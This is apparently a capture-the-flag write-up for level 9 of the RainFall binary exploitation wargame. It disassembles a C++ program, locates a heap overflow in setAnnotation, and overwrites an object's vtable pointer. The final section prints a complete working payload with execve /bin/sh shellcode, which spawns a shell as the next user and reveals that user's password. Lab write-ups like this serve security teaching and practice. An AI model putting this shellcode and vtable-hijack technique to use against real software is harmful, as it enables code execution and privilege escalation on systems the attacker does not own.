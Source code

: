 # Level 9

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
```


## Testing the program

```bash
$ ./level9 
$ ./level9 hello
$ ./level9 bye bye
$ ./level9 214
```

## Learning more 


```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   %ebp
   0x080485f5 <+1>:	mov    %esp,%ebp
   0x080485f7 <+3>:	push   %ebx
   0x080485f8 <+4>:	and    $0xfffffff0,%esp
   0x080485fb <+7>:	sub    $0x20,%esp
   0x080485fe <+10>:	cmpl   $0x1,0x8(%ebp)
   0x08048602 <+14>:	jg     0x8048610 <main+28>
   0x08048604 <+16>:	movl   $0x1,(%esp)
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>
   0x08048610 <+28>:	movl   $0x6c,(%esp)
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>
   0x0804861c <+40>:	mov    %eax,%ebx
   0x0804861e <+42>:	movl   $0x5,0x4(%esp)
   0x08048626 <+50>:	mov    %ebx,(%esp)
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>
   0x0804862e <+58>:	mov    %ebx,0x1c(%esp)
   0x08048632 <+62>:	movl   $0x6c,(%esp)
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    %eax,%ebx
   0x08048640 <+76>:	movl   $0x6,0x4(%esp)
   0x08048648 <+84>:	mov    %ebx,(%esp)
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    %ebx,0x18(%esp)
   0x08048654 <+96>:	mov    0x1c(%esp),%eax
   0x08048658 <+100>:	mov    %eax,0x14(%esp)
   0x0804865c <+104>:	mov    0x18(%esp),%eax
   0x08048660 <+108>:	mov    %eax,0x10(%esp)
   0x08048664 <+112>:	mov    0xc(%ebp),%eax
   0x08048667 <+115>:	add    $0x4,%eax
   0x0804866a <+118>:	mov    (%eax),%eax
   0x0804866c <+120>:	mov    %eax,0x4(%esp)
   0x08048670 <+124>:	mov    0x14(%esp),%eax
   0x08048674 <+128>:	mov    %eax,(%esp)
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
   0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
   0x08048695 <+161>:	mov    -0x4(%ebp),%ebx
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.
```


Okay there are a few new things that are intriguing, that we managed to understood after a few research : 
```plaintext
   • _Znwj --> Mangled name for the 'new' operator in C++. 
   • _ZN1NC2Ei is also a mangled name, which gives : 
      • _Z → start of the mangle.  
      • N1N → class N
      • C2 → constructor
      • i → takes an int as an argument
   • _ZN1N13setAnnotationEPc --> Call to a member function of the class
      • Class N
      • Method setAnnotation
      • Parameter char* (Pc)
```

```plaintext
💡 Name mangling is used in C++ to make each function name unique by encoding information like parameter types and class scopes, allowing the linker to correctly identify overloaded functions. It's essential because C++ supports features like function overloading. 
```

If we use the c++filte we can unmangled the c++ functions

```bash 
c++filt _Znwj                            
operator new(unsigned int)
```

This is the part that is interesting for us :

```bash
mov eax, [esp+0x10]   ; EAX = ptr_B
mov eax, [eax]        ; EAX = *(ptr_B) → vtable pointer
mov edx, [eax]        ; EDX = *(vtable) → virtual method ptr
call edx              ; Appel indirect
```

What is stored at [esp + 0x10] is taken and put into EAX, therefore EAX holds B address (a pointer to an object).

On the second step we read what is in EAX and put it into EAX. EAX holds B address, a pointer to the start of an object with virtual methods, therefore it points to a vtable. 
So EAX = vtable of B

On the third step we read the content of EAX (now the vtable) and store it into EDX. So EDX now has the virtual method to be called. 

So schematise here is what will happen : 

```plaintext
[esp+0x10]              || 0x804a060 (adresse de B, pointer to an object)
*ptrB = ptrB (adresse)  || 0x804a060    → 0x804a100 (pointeur vtable)         
*ptrB= vtable           || 0x804a100    → 0xdeadbeef (adresse fonction virtuelle)              
``` 

So our goal is going to make the vtable address point towards a shellcode. 

## Getting acces to the pass

Our goal : 
1. Overflow of the memcpy used in setAnnotation 
2. Overwrite the vtable of the B object --> make it point to a shellcode  



```bash 
(gdb) run "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
Starting program: /home/user/level9/level9 "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info register eax
eax            0x41366441	1094083649
```

So our offet is : 
0x41366441 --> 108

```bash 
(gdb) b *main+136                                    // Just after the setAnnotation() call
Breakpoint 1 at 0x804867c
(gdb) run 'AAAA'
Starting program: /home/user/level9/level9 'AAAA'

Breakpoint 1, 0x0804867c in main ()
(gdb) x $eax
0x804a00c:      0x41414141                           // address of the a object where annotation start
```
So we will inject our shellcode at this address. 

## Making the payload

[esp+0x10] → pointer to 0x804a00c --> \x10\xa0\x04\x08
0x804a00c → pointer to 0x804a010 (0x804a00c + 4) (shellcode) --> \x0c\xa0\x04\x08
0x804a010 → our shellcode

```plaintext
payload : shell_addr + shellcode + padding + buffer_addr
          [4 bytes]   [28 bytes]  [76 bytes]  [4 bytes] = 108 + 4

```

So we have
```bash
$ python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"'
```

```bash
level9@RainFall:~$ ./level9 $( python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```